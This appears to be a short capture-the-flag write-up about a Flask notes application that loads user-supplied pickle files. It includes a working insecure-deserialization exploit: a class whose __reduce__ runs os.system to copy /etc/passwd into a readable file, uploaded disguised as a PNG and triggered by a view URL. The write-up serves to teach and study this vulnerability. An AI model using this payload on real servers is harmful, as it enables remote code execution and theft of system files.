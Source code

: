 # logic

class note
    note.title
    note.content
    note.image_filename

when create a note, dumps a pickle to `notes/`

```python
# secure_filename simply filter things like '../' 
def save_note(note, image):
    note_file=open(NOTE_FOLDER + secure_filename(note.title + '.pickle'), 'wb')
    note_file.write(pickle.dumps(note))
    note_file.close()

    image.save(NOTE_FOLDER + note.image_filename)
```

when view a note, loads a pickle

```python
@app.route('/view/<file_name>')
def note_view(file_name):

    note=load_note(file_name)
    return render_template('view.html', note=note)
```

in this way, prepare a pickled object that pickled from a class with malicious `__reduce__`, this class is not defined in and has nothing to do with the web application.


```python
class	EvilPickle(object):	
    def	__reduce__(self):	
        return  (os.system, ('cat /etc/passwd > notes/flag.txt',))

pickle_data=pickle.dumps(EvilPickle())	
with open("backup.png","wb") as file:	
    file.write(pickle_data)	

```

take notice of the format of `__reduce__`'s return

upload the backup.png when creating new note as its picture.

then visit `/view/backup.png`, let the server to parse it as a pickled note. In this way, the os.system will be executed.

The reason why I use pipe to write the file I wanna see to another file is:
    after the web application pickled the 'png' uploaded by me, it still try to use its note.image_file and try to reveal it. This made the website crash. 
    But the good thing is it would crash **after** malicious code is executed.
    So, we can execute code, but can't get its feedback.
    In this case, I wrote the feedback to another file, then use /img/flag.txt to see the file content.
